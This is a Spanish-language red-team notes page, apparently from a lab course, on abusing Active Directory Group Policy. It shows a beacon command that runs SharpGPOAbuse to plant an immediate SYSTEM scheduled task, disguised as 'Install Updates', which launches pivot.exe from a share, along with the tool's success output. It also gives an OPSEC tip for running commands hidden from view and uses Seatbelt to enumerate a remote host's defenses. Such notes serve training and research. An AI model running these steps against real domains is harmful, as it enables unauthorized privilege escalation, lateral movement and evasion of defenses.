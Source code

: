 ```powershell
Id               : 3451d1c7-f482-46d3-a756-9036684aa295
GpoStatus        : AllSettingsEnabled
Description      : 
CreationTime     : 16/02/2022 14:41:24
ModificationTime : 16/02/2022 14:59:58
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 1, SysVol Version: 1
WmiFilter        : 

```

>Cada máquina normalmente actualizará sus GPO automáticamente cada dos horas. 

Para hacerlo manualmente 
`gpupdate /target:computer /force`

> OPSEC : ¡También notará que esto deja un símbolo del sistema en la pantalla!
Una mejor manera de hacerlo podría ser `%COMSPEC% /b /c start /b /min`


#### SharpGPO Abuse 🦈

**SharpGPO** Permite agregar una gama mas amplica de configuraciones abusivas en una gpo.
No puede crear GPO, por lo que todavía debemos hacerlo con **RSAT** o modificar a la que ya tenemos acceso de escritura. En este ejemplo, agregamos una tarea programada inmediata al GPO de registro de PowerShell, que se ejecutará tan pronto como se aplique.

```powershell

beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Debug\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c \\dc-2\software\pivot.exe" --GPOName "PowerShell Logging"

[+] Domain = dev.cyberbotic.io
[+] Domain Controller = dc-2.dev.cyberbotic.io
[+] Distinguished Name = CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
[+] GUID of "PowerShell Logging" is: {AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}
[+] Creating file \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```


#### Enumerando Defensas SeatBelt 🎟
con seatbelt podemos enumerar la maquina remotamente, para analizar 
`execute-assembly /opt/tools/Seatbelt.exe -group=system -computername=sql-1.dev.evilcorp.local -outputfile="c:\programdata\seatbelt.txt"`

**la data importante se encuentra en esta salida**
```txt
====== AppLocker ======
[*] Applocker is not running because the AppIDSvc is not running

====== LAPS ======
LAPS Enabled                  : True

====== OSInfo ======
IsLocalAdmin                  :  False

====== PowerShell ======
Script Block Logging Settings
Enabled                       : True

====== Services ======
```